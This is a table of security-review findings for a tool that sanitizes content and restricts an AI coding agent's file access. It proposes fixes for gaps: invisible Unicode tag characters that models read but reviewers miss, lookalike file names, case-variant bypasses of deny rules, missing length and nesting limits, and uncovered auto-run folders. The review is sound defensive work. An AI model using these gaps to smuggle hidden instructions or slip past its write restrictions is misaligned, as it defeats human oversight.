| F-7 | **SR-26's visible-escape set misses Unicode tag characters and other default-ignorable code points**, which models read but reviewers can't see. Proposal: use the `Default_Ignorable_Code_Point` property plus the tag block. | SR-26, `core::sanitize` | Minor | SR-26, default-ignorable characters are shown |
| F-8 | **The watcher's interest set `stage-NN*.md` admits lookalike packet names.** Proposal: exact names. | ADR-013, design §3.5.4 | Minor | SR-31, an exact interest set (ADR-013, DR-162) |
| F-9 | **Whether Claude Code's `//` deny rules match case variants on APFS is UNVERIFIED.** Proposal: add it to S-1′. | SR-09, ADR-021 | Minor | SR-09, an S-1′ case-variant probe |
| F-10 | **No nesting-depth limit** for the `when` expression parser or Markdown nesting. A stack overflow aborts past `catch_unwind`. Proposal: explicit limits with an error. | ADR-005, SR-62 | Minor | SR-31, a nesting depth limit of 64 (DR-015) |
| F-11 | **No length bound on paths and names** from content. Proposal: lexical limits in `check_write` and `check_read`. | SR-30, SR-31 | Minor | SR-30, path length limits (ADR-011) |
| F-12 | **ADR-021 §7's `config:changed` warning for open runs has no named test.** | ADR-021 | Minor | SR-06, `config:changed` marks open runs (`watcher::config_changed_marks_open_runs`) |
| F-13 | **SR-30's deny list is tool-specific** (`.vscode`, `.idea`, `.husky`, `.github`). Other auto-run locations (for example `.devcontainer`, `.zed`, `.cursor`) aren't covered. Recorded as RR-19 with a revisit trigger, not as a v1 change. | SR-30 | Minor | SR-30, a write allowlist (FILE-R9); the tool-specific deny list stays as RR-19 |
